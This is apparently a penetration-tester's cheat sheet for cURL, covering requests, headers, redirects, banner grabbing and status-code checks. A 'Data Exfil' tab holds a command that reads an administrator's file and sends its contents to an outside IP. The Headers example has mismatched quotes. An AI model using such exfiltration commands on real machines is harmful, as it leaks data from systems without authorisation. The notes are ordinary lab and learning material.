 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# cURL

## Usage

{% tabs %}
{% tab title="GET" %}
```bash
curl http://example.com
```
{% endtab %}

{% tab title="POST" %}
```bash
# When -d is used it defaults to POST
curl -d 'username=user&password=pass' http://example.com/register
```
{% endtab %}

{% tab title="Headers" %}
{% code overflow="wrap" %}
```bash
# Defaults to 'application/x-www-form-urlencoded'
curl -H 'Content-Type: application/json" -d '{"username":"user","password":"pass"}' http://example.com/register
```
{% endcode %}
{% endtab %}

{% tab title="Response Headers" %}
```bash
# Defaults to returns just the response body
curl -i http://example.com/register
```
{% endtab %}

{% tab title="Redirections" %}
```bash
curl -L <URL>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Banner Grabbing" %}
```bash
curl <--head | -I> <IP:PORT>
```
{% endtab %}

{% tab title="Status Code Extraction" %}
```bash
curl -s <URL> -L -o /dev/null -w "%{http_code}"
```
{% endtab %}

{% tab title="JSON" %}
```bash
curl <URL> | json_pp
```
{% endtab %}

{% tab title="Data Exfil" %}
```bash
curl http://10.10.14.10/$(type c:\users\administrator\desktop\flag.txt)
```
{% endtab %}
{% endtabs %}
